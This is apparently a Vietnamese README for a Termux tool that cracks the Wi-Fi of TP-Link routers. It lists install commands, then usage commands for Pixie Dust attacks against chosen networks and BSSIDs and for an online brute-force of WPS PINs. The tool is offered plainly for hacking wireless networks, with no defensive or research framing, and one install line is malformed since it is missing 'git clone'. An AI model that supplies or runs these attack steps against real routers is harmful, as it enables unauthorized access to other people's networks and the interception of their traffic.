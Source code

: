 ## BẢN 	TIẾNG VIỆT WPS_Wifi_Cracker_For_TP-Link_Router
### Hack TP Link Wifi Bằng Termux! (Yêu cầu quyền Root)t)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Cài đặt: :

```bash
$ apt update && apt upgrade -y
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ https://github.com/anhduong295/B-n-Ti-ng-Vi-t-WPS_Wifi_Cracker__Router_TP-Link.git
$ chmod +x WPS_Wifi_Cracker_For_TP-Link_Router/Tanvir_inject.py
To Run: 
$ sudo python Tanvir_inject.py -i wlan0 -K
```

#### Ví dụ: `sudo python Tanvir_inject.py -i wlan0 -K`

#### Lưu ý:: 
**Đầu tiên, hãy tắt Wifi của bạn.**
- Hiển thị các mạng khả dụng và bắt đầu tấn công Pixie Dust vào một mạng cụ thể.
- `sudo python Tanvir_inject.py -i wlan0 -K`
- Bắt đầu tấn công Pixie Dust vào một BSSID cụ thể: 
`sudo python Tanvir_inject.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Khởi chạy tấn công brute-force WPS trực tuyến với nửa đầu của mã PIN được chỉ định:
- `sudo python Tanvir_inject.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Khắc phục sự cố
**"Thiết bị hoặc tài nguyên đang bận (-16)" - Bật Wifi sau đó tắt Wifi.**
